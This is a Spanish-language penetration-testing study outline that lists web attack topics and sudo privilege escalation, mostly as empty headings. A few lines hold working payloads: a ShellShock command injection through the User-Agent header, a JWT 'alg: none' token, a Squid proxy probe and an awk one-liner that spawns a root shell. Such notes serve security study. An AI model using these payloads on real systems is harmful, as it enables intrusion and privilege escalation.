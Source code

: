 ### Ataques de asignación masiva (Mass-Asignment Attack) / Parameter Binding

### Open Redirect
 - Recursos: https://github.com/epsylon/ufonet

### Enumeración y explotación de WebDAV
 - Comandos: davtest, cadaver

### Enumeración y explotación de SQUID Proxies
 - curl http://server1 --proxy http://server1:3128

### Ataque ShellShock
 - curl -H "User-Agent: () { :; }; /usr/bin/id" http://[IP-del-servidor]/cgi-bin/[script-vulnerable]

### Inyecciones XPath
 - Recursos: https://book.hacktricks.xyz/pentesting-web/xpath-injection

### Insecure Direct Object Reference (IDORs)

### Intercambio de recursos de origen cruzado (CORS)

### Ataque de Truncado SQL (SQL Truncation)

### Session Puzzling / Session Fixation / Session Variable Overloading

### Enumeración y explotación de Json Web Tokens (JWT)
 - {"alg": "none"}

### Condiciones de carrera (Race Condition)

### Inyecciones CSS (CSSI)

### Python – Ataque de Deserialización Yaml (DES-Yaml)

### Python - Ataque de Deserialización Pickle (DES-Pickle)

### GraphQL Introspection, Mutations e IDORs

### Cuestionario de vulnerabilidades


Técnicas de escalada de privilegios
===================================

### Abusando de privilegios a nivel de Sudoers
 - awk 'BEGIN {system("/bin/sh")}'
 - Archivos: /etc/sudoers
 - Recursos: https://gtfobins.github.io/
